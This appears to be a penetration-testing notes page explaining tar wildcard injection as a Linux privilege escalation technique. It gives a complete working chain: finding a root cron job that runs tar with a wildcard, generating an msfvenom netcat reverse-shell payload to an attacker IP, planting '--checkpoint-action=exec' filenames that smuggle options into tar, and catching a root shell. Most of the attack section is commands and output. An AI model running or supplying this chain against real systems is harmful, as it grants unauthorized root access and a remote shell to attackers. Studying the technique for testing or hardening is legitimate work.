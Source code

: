 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Wildcard Injection

## Concept

**Wildcard injection** is a privilege escalation technique that abuses how shell wildcards (`*`) expand to filenames. If a privileged script (like a cron job) runs a command such as:

```bash
tar -zxf file.tar.gz *
```

...and we control the directory it's run in, we can create files with names like:

* `--checkpoint=1`
* `--checkpoint-action=exec=sh shell.sh`

These are interpreted by `tar` as **command-line options**, not regular files. This lets us inject malicious behavior — like running our own script as `root` — when the privileged `tar` command executes.

```
[ You control a writable dir ] 
         ↓
[ Cron runs: tar -zxf backup.tar.gz * ]
         ↓
[ You create fake files named as tar options ]
         ↓
* expands to:
    --checkpoint=1
    --checkpoint-action=exec=sh shell.sh
         ↓
[ tar executes your shell.sh as root ]
```

## Example

We can use [`pspy`](../tl-dr/infra/infra-tools/pspy.md) or [manually enumerate](../tl-dr/infra/linux.md#scheduled-jobs) the target host:

{% code overflow="wrap" %}
```bash
# Enumerate running processes
$ ./pspy
...
2025/05/24 20:46:01 CMD: UID=0     PID=30275  | /bin/bash -c cd /opt/admin && tar -zxf /tmp/backup.tar.gz *

# Manually enumerate cron jobs
$ cat /etc/cron.d/2minutes
...
*/2 * * * * root cd /opt/admin && tar -zxf /tmp/backup.tar.gz *
```
{% endcode %}

The `2minutes` cronjob runs every two minutes as `root` and extracts the `backup.tar.gz` tarball from the `/tmp` directory into the `/opt/admin` directory using a wildcard (`*`). If we have access on the target directory (`/opt/admin`) we can perform a wildcard injection:

```bash
# Check the target directory's permissions
$ ls -ld /opt/admin
drwxr-xr-x 2 cassie cassie 4096 Nov  2  2022 /opt/admin
```

{% code overflow="wrap" %}
```bash
# Generate a reverse shell payload command on the attacking host
$  msfvenom -p cmd/unix/reverse_netcat LHOST=192.168.X.154 LPORT=443 R
...
mkfifo /tmp/bhksuw; nc 192.168.X.154 443 0</tmp/bhksuw | /bin/sh >/tmp/bhksuw 2>&1; rm /tmp/bhksuw
```
{% endcode %}

In order for this to work, we must create both the `--checkpoint` files and the payload script (`shell.sh`) within the target directory (`/opt/admin`) before the cron job runs. This makes the `*` expand to those filenames, effectively injecting the checkpoint options into `tar`:

{% code overflow="wrap" %}
```bash
# Move into the target directory
$ cd /opt/admin

# Create the reverse shell script
$ echo "mkfifo /tmp/bhksuw; nc 192.168.X.154 443 0</tmp/bhksuw | /bin/bash >/tmp/bhksuw 2>&1; rm /tmp/bhksuw" > shell.sh

# Assing execute permissions to the script
$ chmod +x shell.sh

# Create a checkpoint the executes the script
$ touch -- "--checkpoint-action=exec=sh shell.sh"

# Create the checkpoint trigger
$ touch -- "--checkpoint=1"

# Create an empty tarball within the /tmp directory
$ tar -czf /tmp/backup.tar.gz --files-from=/dev/null

# Confirm that everything is in place
$ ls -l
total 4
-rw-r--r-- 1 cassie cassie   0 May 25 09:35 --checkpoint-action=exec=sh shell.sh
-rw-r--r-- 1 cassie cassie   0 May 25 09:35 --checkpoint=1
-rwxr-xr-x 1 cassie cassie 102 May 25 09:35 shell.sh

$ ls -l /tmp/back*
ls -l /tmp/back*
-rw-r--r-- 1 cassie cassie 45 May 25 09:44 /tmp/backup.tar.gz
```
{% endcode %}

After two minutes:

```bash
# Catch the reverse shell
$ sudo nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.X.154] from (UNKNOWN) [192.168.X.157] 44664
id
uid=0(root) gid=0(root) groups=0(root)
```
